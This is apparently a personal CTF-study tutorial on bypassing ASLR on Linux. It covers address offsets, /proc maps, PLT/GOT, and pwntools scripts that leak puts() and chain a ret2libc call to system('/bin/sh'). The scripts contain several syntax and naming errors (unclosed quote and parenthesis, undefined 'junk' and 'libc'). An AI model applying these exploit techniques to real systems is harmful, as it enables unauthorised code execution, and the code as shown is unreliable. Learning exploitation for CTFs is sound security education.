 # ASLR Bypass

Address Space Layout Randomisation (ASLR) is a feature that causes memory addresses of functions and instructions to be randomised. Each time we run a binary, all of the addresses would change and never be the same.

In earlier Buffer Overflows, we examined how controlling the EIP can lead to RCE, with or without NX protection. However, with ASLR enabled, even if we can control the EIP, we cannot 'jump' anywhere because we wouldn't know where to jump to with ASLR enabled.

## Concepts

In order to bypass ASLR, we need to understand how it functions, as well as how functions are called. When we run a binary, the libraries and functions of that binary are loaded into virtual memory.

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

With ASLR enabled, the library would be **loaded at different places in memory** each time. With the main library being loaded differently, all functions called in the library are affected and have different locations in memory.

Functions are called based on **offsets**. For example, if the libc library is loaded at `0x10000000`, and the offset for the `printf()` function is `0x00001000`, then when a program is run and `printf()` is called, it is mapped at `0x10001000`. \
Generally, base address (where library is called) + offset = memory location of function.

The vulnerability arises because when ASLR is enabled, **the offset does not change and is constant**. So, if we are able to find the base address where the library is called, we can use the constant offsets to load certain functions. ****&#x20;

### **Methods**

To bypass ASLR, there are a few methods possible

* Information Leak Vulnerability
  * Can be an LFI or anything else that lets us **read memory locations on the machine**.&#x20;
  * Memory disclosure vulnerabilities also can work.
* Brute Forcing
  * Perhaps the range of addresses where the library is loaded is rather small. This indicates that the base address could be brute forced and a simple for loop can cover all of it rather quickly.&#x20;
  * Done in the October box from HTB.
* Memory Spraying
  * Involves using an amplification gadget, which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large amount of memory by only sending a relatively small number of bytes.
  * Heap spraying is not as feasible anymore (but still possible on iOS devices).

### Proc Maps

On Linux machines, we can inspect the mappings of a process given its pid through `procfs`, which is done through reading the file at `/proc/<pid>/maps`. Here's some sample output from the Retired box from HTB (which had an LFI):

```bash
$ cat /proc/407/maps
555aa1164000-555aa1165000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
555aa1165000-555aa1166000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
555aa1166000-555aa1167000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1167000-555aa1168000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1168000-555aa1169000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
....... <truncated>
7f4888c53000-7f4888c54000 r--p 00000000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c54000-7f4888c74000 r-xp 00001000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c74000-7f4888c7c000 r--p 00021000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7d000-7f4888c7e000 r--p 00029000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7e000-7f4888c7f000 rw-p 0002a000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
....... <truncated>
7ffe99226000-7ffe99247000 rw-p 00000000 00:00 0                          [stack]
7ffe9932a000-7ffe9932e000 r--p 00000000 00:00 0                          [vvar]
7ffe9932e000-7ffe99330000 r-xp 00000000 00:00 0                          [vdso]
```

This provides memory addresses for each loaded library as well as the program itself. It also identifes areas of memory that are writable or executable.&#x20;

Now, suppose we do this multiple times, we can find out a few things like:

* How wide is the range of addresses? Can it be brute-forced?&#x20;
* Where is the stack loaded?
* Where is the heap relative to the binary?

In general, reading this (if we are able to) allows us to find out more efficient methods of exploitation.

## Information Leak

Now, suppose we have a leak to abuse. This involves using the PLT and GOT tables within the binary:

* Procedure Linkage Table is used to call external procedures whose address is not known in the time of linking, and is left to be resolved by the dynamic linker at run time.
* Global Offsets Table is similar but is used to resolve addresses.

Since the GOT and PLT are used everywhere in the binary, they must have static memory addresses, and the GOT needs to have write permissions.

The leak is exploited through using the `puts()` function to print the address of the `puts()` function (yes you read it right) in the `libc` file mapped in the GOT table, which would allow us to retrieve the base address of `libc` to call other functions, all at run time.

To do this, we would need 3 things:

1. Address of `pop rdi` to pass the argument to the RDI register, which would be used to puts.&#x20;
2. Address of GOT table where the `puts` in libc is.
3. Address of puts to print the address leaked.

To execute this, we can do the following commands:

```bash
ROPgadget --binary <binaryname> > gadgets.txt
cat gadgets.txt | grep "pop rdi"

objdump -D <binary> | grep puts
objdump -D <binary> | grep main
```

This would print the addresses we need for the script below:

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))
p.interactive(prompt='')
```

But wait, why do we need the `main()` address? Well, this is because once our process is stopped, the address leaked will be randomised in the next execution, meaning that we cannot end the process and need a way to preserve it.

By using the main address function, we can 'preserve' this address and make the program wait at `main()` for the second stage of our exploit.

The next part of the exploit would be a basic ret2libc or ROP chain, depending on whether NX is enabled or what is possible. For this example, I will be using a simple ret2libc exploit. Since the offsets of the functions needed for this are **constant**, all we need to do now is use the address of `puts` to dump the function of the library.&#x20;

First we need to find the address of the `puts()` function within the `libc` file, as well as the `system()`, `/bin/sh`, and `exit()` for our ret2libc.

```bash
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep puts
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep system
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 |grep /bin/sh
```

From the script below, we would be able to find the base address of where `libc` is loaded, and because we never technically exited the program, **the address is not randomised again**. (remember that we called `main()` again in the first payload)

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))

leaked_puts = u64(leaked_puts)

libc_put = <libc puts addr>
offset = leaked_puts - libc # this gives us the base libc address

log.info('glibc offset: %x', offset)

libc_system = <system addr>
libc_binsh = </bin/sh addr>

sys = p64(offset + libc_system)
sh = p64(offset + libc_binsh)

payload2 = junk + pop_rdi + sh + sys
p.sendline(payload2)
p.recvline()

p.interactive(prompt="")
```

And this is how we bypass ASLR using an Information Leak.

## Memory Spraying

To bypass ASLR without the above method is a lot more difficult. This would require memory spraying, which lets us map contiguous memory of a given size, on a given range of addresses.&#x20;

This abuses a **memory leak, a bug of which memory is never 'freed'** and triggering it multiple times until the desired amount of memory has been leaked. Also, it uses an **amplification gadget** which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large memory range by only sending a small number of bytes.&#x20;

For now, I don't have enough knowledge on this to write a proper explanation, so here's a good resource I used to (sort of) understand what's going on.

{% embed url="https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64" %}
